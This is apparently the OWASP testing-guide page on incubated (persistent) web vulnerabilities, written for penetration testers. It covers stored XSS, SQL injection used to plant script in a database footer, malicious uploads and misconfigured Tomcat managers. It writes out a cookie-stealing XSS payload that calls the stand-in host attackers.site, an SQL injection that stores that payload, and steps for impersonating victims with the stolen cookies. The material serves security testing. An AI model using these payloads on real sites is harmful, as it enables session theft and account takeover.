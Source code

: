 # Testing for Incubated Vulnerability

|ID          |
|------------|
|WSTG-INPV-14|

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

- The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
- Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

- File upload components in a web application, allowing the attacker to upload corrupted media files (JPEG images exploiting `CVE-2004-0200`, PNG images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
- Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting](02-Testing_for_Stored_Cross_Site_Scripting.md) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.
- SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1. Introduce `JavaScript` code as the value for the vulnerable field, for instance:
    `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`

2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at `attackers.site` host listening for all incoming connections.

3. When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as: `GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1`

4. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

    ```sql
    SELECT field1, field2, field3`
    FROM table_x
    WHERE field2 = 'x';
       UPDATE footer
       SET notice = 'Copyright 1999-2030%20
           <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
       WHERE notice = 'Copyright 1999-2030';
    ```

2. Now, each user browsing the site will silently send his cookies to the `attackers.site` (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

- Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `back door`.
- To combat the `back door` issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

- [CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### Whitepapers

- [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
